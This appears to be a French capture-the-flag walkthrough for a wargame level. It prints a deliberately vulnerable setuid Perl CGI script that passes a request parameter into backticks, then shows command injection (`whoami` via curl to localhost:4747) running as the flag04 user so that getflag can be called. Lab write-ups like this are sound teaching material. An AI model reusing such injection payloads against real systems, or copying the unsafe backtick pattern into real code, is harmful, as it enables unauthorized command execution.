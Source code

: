 # Level 04

The home of level04 user
```
$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
On peut voir un script en perl `level04.pl`.
```pl
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Sur ce script il y a 3 choses à retenir,
 - Un commentaire parlant d'une ip local avec un port
 - Les deux backtick
 - Ce script lit le parametre nommée `x`

Pour confirmer le premier point on peut faire `netstat -nl`, ce qui nous affiche bien le port 4747 sur `listen`
```
$ netstat -nl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
...
tcp6       0      0 :::4747                 :::*                    LISTEN
...
```
Le deuxieme point, on peut executer des commandes via le point numero 3 qui est le parametre x.
```
$ ./level04.pl x='`whoami`'
Content-type: text/html

level04
```
Et maintenant si on fait appel à ce cgi sur le port 4747
```
$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```
Et boom, on voit que le serveur est lancé sur l'user flag04 et qu'on peut exécuter la commande `getflag`

